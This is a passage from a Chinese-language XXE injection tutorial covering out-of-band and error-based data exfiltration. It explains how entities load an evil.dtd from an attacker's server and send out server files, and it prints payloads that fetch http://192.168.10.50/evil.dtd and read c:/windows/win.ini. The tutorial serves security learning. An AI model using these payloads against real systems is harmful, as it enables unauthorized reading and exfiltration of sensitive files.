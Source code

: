 在构建的payload中会发现，可以看到挺难理解的，我们根据构建的payload进行解释一下，首先%dtd去调用vps上的evil.dtd文件，这个有点类似于将evil.dtd文件包含进来的感觉，然后调用evil.dtd文件中的%all，%all再去调用%file，而%file就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到%send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 %)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，成功解决外带的情况。

## 4.3.**基于报错案例**

基于报错的原理和无回显类似，无回显通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。所以和无回显的构造方式几乎只有url出不同，其他地方一模一样。

简答来说，报错就是将返回的数据，本该返回回去，但由于URL地址是错误的，那么就会出现报错，将数据显示在报错中。

参考链接：[https://blog.szfszf.top/tech/blind-xxe-%E8%AF%A6%E8%A7%A3-google-ctf-%E4%B8%80%E9%81%93%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90/](https://blog.szfszf.top/tech/blind-xxe-详解-google-ctf-一道题目分析/)

### 4.3.1.**引入服务器文件案例**

引入服务器文件的操作和无回显案例基本一致，就是上面提到的解释。

#### 4.3.1.1.**修改配置文件**

这里为了能够实现报错，需要在配置文件中，将不显示报错内容给注释了。需要将浏览器重新刷新一下，重新抓包。

![img](assets/rgtThxbYznZRacW.jpg) 

#### 4.3.1.2.**构建payload**

首先在攻击者服务器中创建evil.dtd文件，在文件中写入payload，在这个payload中会存在一个hhhhh的地方，原本在无回显中这里会写上服务器的IP地址，但是这里随便写一个不存在的地址，使其能够出现报错。

payload：

```xml
<!ENTITY % start "<!ENTITY % send SYSTEM 'file:///hhhhhhh/%file;'>">

%start;

构建攻击的payload的语句。

payload：

<?xml version="1.0"?>

<!DOCTYPE message [

<!ENTITY % remote SYSTEM "http://192.168.10.50/evil.dtd">

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">

```